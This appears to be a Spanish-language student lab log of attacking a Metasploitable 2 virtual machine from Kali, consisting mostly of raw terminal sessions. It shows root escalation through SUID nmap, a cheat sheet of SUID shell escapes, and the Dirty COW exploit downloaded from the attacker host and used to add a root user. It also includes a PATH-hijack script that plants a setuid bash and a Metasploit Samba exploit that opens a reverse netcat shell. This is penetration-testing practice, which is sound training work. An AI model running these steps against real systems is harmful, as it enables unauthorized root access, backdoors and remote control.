




omandoEjecuta esto para forzar aceptación de ssh-rsa solo para esta conexión:
ssh -oHostKeyAlgorithms=+ssh-rsa -oPubkeyAcceptedAlgorithms=+ssh-rsa usuario@192.168.100.20

(kali㉿kali)-[~]
└─$ ssh -oHostKeyAlgorithms=+ssh-rsa -oPubkeyAcceptedAlgorithms=+ssh-rsa msfadmin@192.168.100.20
msfadmin@192.168.100.20's password: 
Linux metasploitable 2.6.24-16-server #1 SMP Thu Apr 10 13:58:00 UTC 2008 i686

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

To access official Ubuntu documentation, please visit:
http://help.ubuntu.com/
No mail.
Last login: Fri Nov 14 03:57:16 2025
msfadmin@metasploitable:~$

whoami

id

msfadmin@metasploitable:~$ id                                                                    
uid=1000(msfadmin) gid=1000(msfadmin) groups=4(adm),20(dialout),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),107(fuse),111(lpadmin),112(admin),119(sambashare),1000(msfadmin)
msfadmin@metasploitable:~$      

msfadmin@metasploitable:/tmp/equipo4_privesc$ ls -la /usr/bin/nmap
-rwsr-xr-x 1 root root 780676 2008-04-08 10:04 /usr/bin/nmap

msfadmin@metasploitable:/tmp/equipo4_privesc$ ls -la /usr/bin/nmap
-rwsr-xr-x 1 root root 780676 2008-04-08 10:04 /usr/bin/nmap
msfadmin@metasploitable:/tmp/equipo4_privesc$ 
msfadmin@metasploitable:/tmp/equipo4_privesc$ nmap --interactive

Starting Nmap V. 4.53 ( http://insecure.org )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
sh-3.2# whoami
root
sh-3.2# 

-----------------------
**find con SUID:**

\# Si find tiene SUID

find /home -exec /bin/sh \; -quit

**vim con SUID:**

\# Si vim tiene SUID

vim -c ':!/bin/sh'

**bash con SUID:**

\# Si bash tiene SUID

/bin/bash -p
------------------------

sh-3.2# id                                                                   
uid=1000(msfadmin) gid=1000(msfadmin) euid=0(root) groups=4(adm),20(dialout),,29(audio),30(dip),44(video),46(plugdev),107(fuse),111(lpadmin),112(admin),11sfadmin)                                                                     
sh-3.2# echo "Root via nmap SUID - Equipo 4" > /root/equipo4_nmap_root.txt   
sh-3.2# cat /root/equipo4_nmap_root.txt                                      
Root via nmap SUID - Equipo 4                                                
sh-3.2#                                                                      
sh-3.2#      

sh-3.2# find /home -exec /bin/sh \; -quit                                                              
sh-3.2# vexit                                                                                          
sh-3.2# vim -c ':!/bin/sh'                                                                             
                                                                                                       

:!/bin/sh
sh-3.2$ /bin/bash -p                                

------------------------------

msfadmin@metasploitable:/tmp/equipo4_privesc$ uname -a                             
Linux metasploitable 2.6.24-16-server #1 SMP Thu Apr 10 13:58:00 UTC 2008 i686 GNU/Linux                                                                              
msfadmin@metasploitable:/tmp/equipo4_privesc$                                      
msfadmin@metasploitable:/tmp/equipo4_privesc$ cat /etc/issue
                _                  _       _ _        _     _      ____  
 _ __ ___   ___| |_ __ _ ___ _ __ | | ___ (_) |_ __ _| |__ | | ___|___ \ 
| '_ ` _ \ / _ \ __/ _` / __| '_ \| |/ _ \| | __/ _` | '_ \| |/ _ \ __) |
| | | | | |  __/ || (_| \__ \ |_) | | (_) | | || (_| | |_) | |  __// __/ 
|_| |_| |_|\___|\__\__,_|___/ .__/|_|\___/|_|\__\__,_|_.__/|_|\___|_____|
                            |_|                                          

Warning: Never expose this VM to an untrusted network!

Contact: msfdev[at]metasploit.com

Login with msfadmin/msfadmin to get started

msfadmin@metasploitable:/tmp/equipo4_privesc$ cat /proc/version
Linux version 2.6.24-16-server (buildd@palmer) (gcc version 4.2.3 (Ubuntu 4.2.3-2ubuntu7)) #1 SMP Thu Apr 10 13:58:00 UTC 2008

-------------------------

searchsploit linux kernel 2.6 privilege escalation
---------------------------------- ---------------------------------
 Exploit Title                    |  Path
---------------------------------- ---------------------------------
Linux Kernel (Solaris 10 / < 5.10 | solaris/local/15962.c
Linux Kernel 2.2.25/2.4.24/2.6.2  | linux/local/160.c
Linux Kernel 2.4.1 < 2.4.37 / 2.6 | linux/local/9844.py
Linux Kernel 2.4.23/2.6.0 - 'do_m | linux/local/145.c
Linux Kernel 2.4.30/2.6.11.5 - Bl | linux/local/25289.c
Linux Kernel 2.4.4 < 2.4.37.4 / 2 | linux/local/19933.rb
Linux Kernel 2.4.x/2.6.x (CentOS  | linux/local/9545.c
Linux Kernel 2.4.x/2.6.x - 'Bluez | linux/local/926.c
Linux Kernel 2.4.x/2.6.x - 'useli | linux/local/895.c
Linux Kernel 2.4.x/2.6.x - BlueTo | linux/local/25288.c
Linux Kernel 2.4/2.6 (Fedora 11)  | linux/local/9598.txt
Linux Kernel 2.4/2.6 (RedHat Linu | linux/local/9479.c
Linux Kernel 2.4/2.6 (x86-64) - S | linux_x86-64/local/4460.c
Linux Kernel 2.4/2.6 - 'sock_send | linux/local/9641.txt
Linux Kernel 2.6 (Debian 4.0 / Ub | linux/local/8478.sh
Linux Kernel 2.6 (Gentoo / Ubuntu | linux/local/8572.c
Linux Kernel 2.6 < 2.6.19 (White  | linux_x86/local/9542.c
Linux Kernel 2.6.0 < 2.6.31 - 'pi | linux/local/33321.c
Linux Kernel 2.6.10 < 2.6.31.5 -  | linux/local/40812.c
Linux Kernel 2.6.13 < 2.6.17.4 -  | linux/local/2004.c
Linux Kernel 2.6.13 < 2.6.17.4 -  | linux/local/2005.c
Linux Kernel 2.6.13 < 2.6.17.4 -  | linux/local/2006.c
Linux Kernel 2.6.13 < 2.6.17.4 -  | linux/local/2011.sh
Linux Kernel 2.6.13 < 2.6.17.4 -  | linux/local/2031.c
Linux Kernel 2.6.17 - 'Sys_Tee' L | linux/local/29714.txt
Linux Kernel 2.6.17 < 2.6.24.1 -  | linux/local/5092.c
Linux Kernel 2.6.17.4 - 'proc' Lo | linux/local/2013.c
Linux Kernel 2.6.18 < 2.6.18-20 - | linux/local/10613.c
Linux Kernel 2.6.19 < 5.9 - 'Netf | linux/local/50135.c
Linux Kernel 2.6.22 < 3.9 (x86/x6 | linux/local/40616.c
Linux Kernel 2.6.22 < 3.9 - 'Dirt | linux/local/40839.c
Linux Kernel 2.6.22 < 3.9 - 'Dirt | linux/local/40847.cpp
Linux Kernel 2.6.23 < 2.6.24 - 'v | linux/local/5093.c
Linux Kernel 2.6.24_16-23/2.6.27_ | linux_x86-64/local/9083.c
Linux Kernel 2.6.27 < 2.6.36 (Red | linux_x86-64/local/15024.c
Linux Kernel 2.6.28/3.0 (DEC Alph | linux/local/17391.c
Linux Kernel 2.6.29 - 'ptrace_att | linux/local/8678.c
Linux Kernel 2.6.30 < 2.6.30.1 /  | linux/local/9191.txt
Linux Kernel 2.6.32 (Ubuntu 10.04 | linux/local/41770.txt
Linux Kernel 2.6.32 - 'pipe.c' Lo | linux/local/10018.sh
Linux Kernel 2.6.32 < 3.x (CentOS | linux/local/25444.c
Linux Kernel 2.6.36-rc8 - 'RDS Pr | linux/local/15285.c
Linux Kernel 2.6.37 (RedHat / Ubu | linux/local/15704.c
Linux Kernel 2.6.39 < 3.2.2 (Gent | linux/local/18411.c
Linux Kernel 2.6.39 < 3.2.2 (x86/ | linux/local/35161.c
Linux Kernel 2.6.9 < 2.6.11 (RHEL | linux/local/1397.c
Linux Kernel 2.6.x (Gentoo 2.6.29 | linux/local/8673.c
Linux Kernel 2.6.x - 'pipe.c' Loc | linux/local/33322.c
Linux Kernel 2.6.x - 'SYS_EPoll_W | linux/local/25202.c
Linux Kernel 2.6.x - Ext4 'move e | linux/local/33395.txt
Linux Kernel 2.6.x - Ptrace Privi | linux/local/30604.c
Linux Kernel 2.6.x / 3.10.x / 4.1 | linux_x86-64/local/45516.c
Linux Kernel 3.14-rc1 < 3.15-rc4  | linux_x86-64/local/33516.c
Linux Kernel 4.8.0 UDEV < 232 - L | linux/local/41886.c
Linux Kernel < 2.6.11.5 - BlueToo | linux/local/4756.c
Linux Kernel < 2.6.19 (Debian 4)  | linux/local/9575.c
Linux Kernel < 2.6.19 (x86/x64) - | linux/local/9574.txt
Linux Kernel < 2.6.22 - 'ftruncat | linux/local/6851.c
Linux Kernel < 2.6.28 - 'fasync_h | linux/local/33523.c
Linux Kernel < 2.6.29 - 'exit_not | linux/local/8369.sh
Linux Kernel < 2.6.34 (Ubuntu 10. | linux/local/15944.c
Linux Kernel < 2.6.34 (Ubuntu 10. | linux_x86/local/15916.c
Linux Kernel < 2.6.36-rc1 (Ubuntu | linux/local/14814.c
Linux Kernel < 2.6.36-rc4-git2 (x | linux_x86-64/local/15023.c
Linux Kernel < 2.6.36.2 (Ubuntu 1 | linux/local/17787.c
Linux Kernel < 2.6.37-rc2 - 'ACPI | linux/local/15774.c
Linux Kernel < 2.6.7-rc3 (Slackwa | linux/local/718.c
Linux Kernel < 3.16.1 - 'Remount  | linux/local/34923.c
Linux Kernel < 3.16.39 (Debian 8  | linux_x86-64/local/44302.c
Linux Kernel < 3.2.0-23 (Ubuntu 1 | linux_x86-64/local/34134.c
Linux Kernel < 3.4.5 (Android 4.2 | arm/local/31574.c
Linux Kernel < 3.5.0-23 (Ubuntu 1 | linux_x86-64/local/44299.c
Linux Kernel < 3.8.9 (x86-64) - ' | linux_x86-64/local/26131.c
Linux Kernel < 3.8.x - open-time  | linux/local/25450.c
Linux kernel < 4.10.15 - Race Con | linux/local/43345.c
Linux Kernel < 4.11.8 - 'mq_notif | linux/local/45553.c
Linux Kernel < 4.13.9 (Ubuntu 16. | linux/local/45010.c
Linux Kernel < 4.4.0-116 (Ubuntu  | linux/local/44298.c
Linux Kernel < 4.4.0-21 (Ubuntu 1 | linux_x86-64/local/44300.c
Linux Kernel < 4.4.0-83 / < 4.8.0 | linux/local/43418.c
Linux Kernel < 4.4.0/ < 4.8.0 (Ub | linux/local/47169.c
ReiserFS (Linux Kernel 2.6.34-rc3 | linux/local/12130.py
Samba 2.2.8 (Linux Kernel 2.6 / D | linux/local/23674.txt
---------------------------------- ---------------------------------
Shellcodes: No Results
                                                                    
┌──(kali㉿kali)-[~]
└─$ 
-------------------------------

└─$ searchsploit dirty cow
---------------------------------- ---------------------------------
 Exploit Title                    |  Path
---------------------------------- ---------------------------------
Linux Kernel - 'The Huge Dirty Co | linux/dos/43199.c
Linux Kernel - 'The Huge Dirty Co | linux/dos/44305.c
Linux Kernel 2.6.22 < 3.9 (x86/x6 | linux/local/40616.c
Linux Kernel 2.6.22 < 3.9 - 'Dirt | linux/local/40611.c
Linux Kernel 2.6.22 < 3.9 - 'Dirt | linux/local/40838.c
Linux Kernel 2.6.22 < 3.9 - 'Dirt | linux/local/40839.c
Linux Kernel 2.6.22 < 3.9 - 'Dirt | linux/local/40847.cpp
---------------------------------- ---------------------------------
Shellcodes: No Results

--------------------------------

└─$ searchsploit -m 40839
  Exploit: Linux Kernel 2.6.22 < 3.9 - 'Dirty COW' 'PTRACE_POKEDATA' Race Condition Privilege Escalation (/etc/passwd Method)
      URL: https://www.exploit-db.com/exploits/40839
     Path: /usr/share/exploitdb/exploits/linux/local/40839.c
    Codes: CVE-2016-5195
 Verified: True
File Type: C source, ASCII text
Copied to: /home/kali/40839.c

--------------------------------

msfadmin@metasploitable:/tmp/equipo4_privesc$ wget http://192.168.100.9:8000//408>
--04:35:11--  http://192.168.100.9:8000//40839.c
           => `40839.c'
Connecting to 192.168.100.9:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 4,814 (4.7K) [text/x-csrc]

100%[=======================================>] 4,814         --.--K/s             

04:35:11 (603.13 MB/s) - `40839.c' saved [4814/4814]

msfadmin@metasploitable:/tmp/equipo4_privesc$ 

------------------------------

msfadmin@metasploitable:/tmp/equipo4_privesc$ 
msfadmin@metasploitable:/tmp/equipo4_privesc$ cd /tmp/equipo4\_privesc
</equipo4_privesc$ gcc -pthread 40839.c -o 40839 -lcrypt                        
40839.c:193:2: warning: no newline at end of file
msfadmin@metasploitable:/tmp/equipo4_privesc$ ./40839.c
bash: ./40839.c: Permission denied
msfadmin@metasploitable:/tmp/equipo4_privesc$ chmod +x 40839
msfadmin@metasploitable:/tmp/equipo4_privesc$ ./40839.c     
bash: ./40839.c: Permission denied
msfadmin@metasploitable:/tmp/equipo4_privesc$ chmod 644 40839.c
msfadmin@metasploitable:/tmp/equipo4_privesc$ ./40839.c        
bash: ./40839.c: Permission denied
msfadmin@metasploitable:/tmp/equipo4_privesc$ ./40839  
/etc/passwd successfully backed up to /tmp/passwd.bak
Please enter the new password: 
Complete line:
firefart:fionu3giiS71.:0:0:pwned:/root:/bin/bash

mmap: b7ef3000

------------------------------

mmap: b7ef3000

msfadmin@metasploitable:/tmp/equipo4_privesc$ su firefart 
Password: 
firefart@metasploitable:/tmp/equipo4_privesc# whoami
firefart
firefart@metasploitable:/tmp/equipo4_privesc# id
uid=0(firefart) gid=0(root) groups=0(root)
<t via Dirty COW - Equipo 4" > /root/equipo4\_dirtycow\_root.txt                
firefart@metasploitable:/tmp/equipo4_privesc# 

------------------------------

root@metasploitable:/home/msfadmin# ls -la /etc/cron.\*
ls: cannot access /etc/cron.*: No such file or directory
root@metasploitable:/home/msfadmin# crontab -l
no crontab for root
root@metasploitable:/home/msfadmin# 
root@metasploitable:/home/msfadmin# ls -la /etc/cron.\*
ls: cannot access /etc/cron.*: No such file or directory
root@metasploitable:/home/msfadmin# crontab -l         
no crontab for root
root@metasploitable:/home/msfadmin# exit
exit
root@metasploitable:/home/msfadmin# end
bash: end: command not found
root@metasploitable:/home/msfadmin# 
root@metasploitable:/home/msfadmin# logout
bash: logout: not login shell: use `exit'
root@metasploitable:/home/msfadmin# exit
exit
root@metasploitable:/home/msfadmin# 

------------------------------
la 6, fue bella 
root@metasploitable:/home/msfadmin# mkdir /tmp/hijack
root@metasploitable:/home/msfadmin# cd /tmp/hijack
root@metasploitable:/tmp/hijack# echo '#!/bin/bash' > ps
<p/hijack# echo 'cp /bin/bash /tmp/rootbash' >> ps               
<p/hijack# echo 'chmod +s /tmp/rootbash' >> ps                   
root@metasploitable:/tmp/hijack# echo '/bin/ps' >> ps
root@metasploitable:/tmp/hijack# chmod +x ps
root@metasploitable:/tmp/hijack# export PATH=/tmp/hijack:$PATH
root@metasploitable:/tmp/hijack# 

------------------------------

 sudo msfdb init && msfconsole
[sudo] password for kali: 
[+] Starting database
[+] Creating database user 'msf'
[+] Creating databases 'msf'
[+] Creating databases 'msf_test'
[+] Creating configuration file '/usr/share/metasploit-framework/config/database.yml'
[+] Creating initial database schema
Metasploit tip: You can use help to view all available commands
                                                  
 _                                                    _
/ \    /\         __                         _   __  /_/ __
| |\  / | _____   \ \           ___   _____ | | /  \ _   \ \
| | \/| | | ___\ |- -|   /\    / __\ | -__/ | || | || | |- -|
|_|   | | | _|__  | |_  / -\ __\ \   | |    | | \__/| |  | |_
      |/  |____/  \___\/ /\ \\___/   \/     \__|    |_\  \___\

       =[ metasploit v6.3.55-dev                          ]
+ -- --=[ 2397 exploits - 1235 auxiliary - 422 post       ]
+ -- --=[ 1388 payloads - 46 encoders - 11 nops           ]
+ -- --=[ 9 evasion                                       ]

Metasploit Documentation: https://docs.metasploit.com/

msf6 > use exploit/multi/samba/usermap\_script
[*] No payload configured, defaulting to cmd/unix/reverse_netcat
msf6 exploit(multi/samba/usermap_script) > set RHOSTS 192.168.100.20RHOSTS => 192.168.100.20
msf6 exploit(multi/samba/usermap_script) > set payload cmd/unix/reverse\_netcat
payload => cmd/unix/reverse_netcat
msf6 exploit(multi/samba/usermap_script) > set LHOST 192.168.100.9
LHOST => 192.168.100.9
msf6 exploit(multi/samba/usermap_script) > exploit

[*] Started reverse TCP handler on 192.168.100.9:4444 
[*] Command shell session 1 opened (192.168.100.9:4444 -> 192.168.100.20:53381) at 2025-11-14 09:19:23 -0500
[*] Started reverse TCP handler on 192.168.100.9:4444 
[*] Command shell session 1 opened (192.168.100.9:4444 -> 192.168.100.20:33709) at 2025-11-14 09:23:24 -0500

^Z
Background session 1? [y/N]  y
msf6 exploit(multi/samba/usermap_script) > 

------------------------------

msf6 post(multi/recon/local_exploit_suggester) > run

[*] 192.168.100.20 - Collecting local exploits for cmd/unix...
[*] 192.168.100.20 - 193 exploit checks are being tried...
[+] 192.168.100.20 - exploit/openbsd/local/dynamic_loader_chpass_privesc: The service is running, but could not be validated. Patch 013_ldso is not present
[+] 192.168.100.20 - exploit/unix/local/setuid_nmap: The target is vulnerable. /usr/bin/nmap is setuid

[*] 192.168.100.20 - Valid modules for session 1:
============================

 #   Name                                                            Potentially Vulnerable?  Check Result
 -   ----                                                            -----------------------  ------------
 1   exploit/openbsd/local/dynamic_loader_chpass_privesc             Yes                      The service is running, but could not be validated. Patch 013_ldso is not present                             
 2   exploit/unix/local/setuid_nmap                                  Yes                      The target is vulnerable. /usr/bin/nmap is setuid                                                             
 3   exploit/aix/local/ibstat_path                                   No                       The target is not exploitable. /usr/bin/ibstat is not set-uid root                                            
 4   exploit/aix/local/invscout_rpm_priv_esc                         No                       The target is not exploitable. /usr/sbin/invscout is not executable                                           
 5   exploit/aix/local/xorg_x11_server                               No                       The target is not exploitable.
 6   exploit/linux/local/cve_2021_38648_omigod                       No                       The target is not exploitable. The omiserver process was not found.                                           
 7   exploit/linux/local/pihole_remove_commands_lpe                  No                       The target is not exploitable. Pi-Hole version 0 is >= 5.3 and not vulnerable                                 
 8   exploit/linux/local/vmware_workspace_one_access_certproxy_lpe   No                       The target is not exploitable. Not running as the horizon user.                                               
 9   exploit/linux/local/vmware_workspace_one_access_cve_2022_22960  No                       The target is not exploitable. Not running as the horizon user.                                               
 10  exploit/linux/local/zpanel_zsudo                                No                       The target is not exploitable.
 11  exploit/linux/local/zyxel_suid_cp_lpe                           No                       The target is not exploitable. Could not read /zyinit/fwversion. The target is not a Zyxel firewall.          
 12  exploit/multi/local/vagrant_synced_folder_vagrantfile_breakout  No                       The check raised an exception.
 13  exploit/multi/local/xorg_x11_suid_server                        No                       The target is not exploitable.
 14  exploit/osx/local/feedback_assistant_root                       No                       The check raised an exception.
 15  exploit/osx/local/sudo_password_bypass                          No                       The target is not exploitable.
 16  exploit/qnx/local/ifwatchd_priv_esc                             No                       The check raised an exception.
 17  exploit/solaris/local/xscreensaver_log_priv_esc                 No                       The check raised an exception.
 18  exploit/unix/local/chkrootkit                                   No                       The target is not exploitable.
 19  exploit/unix/local/emacs_movemail                               No                       The target is not exploitable.
 20  exploit/unix/local/exim_perl_startup                            No                       The target is not exploitable.

[*] Post module execution completed
msf6 post(multi/recon/local_exploit_suggester) > 
